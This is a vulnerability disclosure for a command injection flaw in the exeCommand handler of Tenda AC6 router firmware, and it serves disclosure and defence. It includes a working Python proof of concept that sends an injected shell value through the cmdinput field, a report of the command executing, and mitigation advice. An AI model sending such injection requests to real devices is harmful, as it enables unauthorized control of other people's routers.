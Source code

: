 # Command Injection Vulnerability in Tenda AC6 Firmware

## Vulnerability Overview
There is a **Command Injection** vulnerability in the **Tenda AC6 firmware version 15.03.05.16_multi**. The vulnerability exists in the **exeCommand** function of the firmware. Specifically, the **cmdinput** parameter, which is passed via HTTP, allows attackers to inject arbitrary commands into the system. This vulnerability allows attackers to execute arbitrary system commands, potentially gaining unauthorized access or causing other system misconfigurations.

The issue arises from improper sanitization of user-supplied input, where an attacker can exploit the **cmdinput** parameter to inject and execute arbitrary commands. For example, an attacker could inject commands like `ls` to list directories, or use other commands to read sensitive files or execute malicious actions remotely. 
![Root Cause of Command Injection Vulnerability](1.png)

## Affected Versions
- Tenda AC6 Firmware version 15.03.05.16_multi

## Impact
- Command Injection
- Unauthorized access to the system
- Potential for information disclosure or system compromise

![PoC](2.png)
## Proof of Concept (PoC)

```python
import requests

host_port = "http://192.168.101.50:8008"
url = "/goform/exeCommand"

data = {
    "cmdinput": "ls; ls > /execcommand.txt;"  # Example command injection
}

response = requests.post(host_port + url, data=data)

# Print the response code and content
print("Response status code: ", response.status_code)
print("Response content: ", response.text)
```

### PoC Run Results:

After sending the crafted request with the injected command (`ls`), the command is successfully executed on the device. The response returned includes the output of the executed command. Specifically, the file system's directory listing is displayed, showing the contents of the device's directories.

- **Command Executed**: `ls` (list directories)
- **Output**: The directory contents are printed as expected, confirming that the command injection was successful and arbitrary system commands can be executed remotely.

This indicates that the device is vulnerable to command injection attacks, as the attacker was able to execute a basic `ls` command remotely and retrieve the file system's contents.

![PoC Execution Result](3.png)


## Mitigation
- Apply the latest firmware update from Tenda to address this issue.
- Ensure proper input validation and sanitization to prevent command injection attacks.

